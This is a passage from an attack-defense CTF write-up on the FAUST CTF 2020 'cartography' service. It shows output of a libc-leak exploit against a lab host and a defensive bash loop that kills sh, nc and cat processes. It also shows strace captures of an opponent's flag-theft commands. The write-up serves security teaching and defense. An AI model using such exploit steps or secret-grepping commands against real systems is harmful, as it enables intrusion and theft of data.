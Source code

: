 > I used the attacker's `grep` command to get a flags.

Output with killer loop:

```
# ./exploit.py
[*] '/pwd/datajerk/faustctf2020/srv/cartography/cartography'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/faustctf2020/srv/cartography/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.19.2.18 on port 6666: Done
[*] puts: 0x7f9498c03910
[*] baselibc: 0x7f9498b92000
[*] Switching to interactive mode
Sector created!
Options:
0. New Sector
1. Update Sector Data
2. Read Sector Data
3. Save Sector
4. Load Sector
5. Exit
```

`/bin/sh` was killed and session returned back to menu.


## Defense

### First line

Our base defense did keep this attacker out:

```bash
while :; do for uid in $(cat serviceusers); do pkill -e -U $uid 'sh|nc|cat'; done; done | tee servicekil.log
```

However, flags were still stolen.

In the ~30 min I had the `strace` front-ending this service 5628 PID files were created; we were getting pounded (but managed to kill 2487 shells, not every PID was a shell).  However, only 22 of the PIDs managed to get flags and used one of the following:

```
execve("/usr/bin/strings", ["strings", "a54226d09ecb764feddf6df96a073bf9", "e655707a790f68faaaf769d65794a466", "00000000000000000000000000000000", "7c957eba39eb18d2a98b19552b1b66ac", "3818b68cd6d14ec622185e7cbe42acb4", "7ea93ad7510e629aa8e91f312b997387", "6d45d9eadb1bd3dfd1bedf0b2c68e969", "5b409e8d7028435b72912fa9e66f78aa", "2140e6ddd81d878f923e9d5507c877c5", "8fca86911b94382bd65cafd8648b5f7f"], 0x7fff4b292100 /* 12 vars */) = 0

execve("/usr/bin/egrep", ["egrep", "-ra", "FAUST_[A-Za-z0-9/+]{32}"], 0x5641db672c00 /* 12 vars */) = 0

execve("/usr/bin/grep", ["grep", "-ar", "FAUST", "data"], 0x558505c7fc30 /* 11 vars */) = 0
```
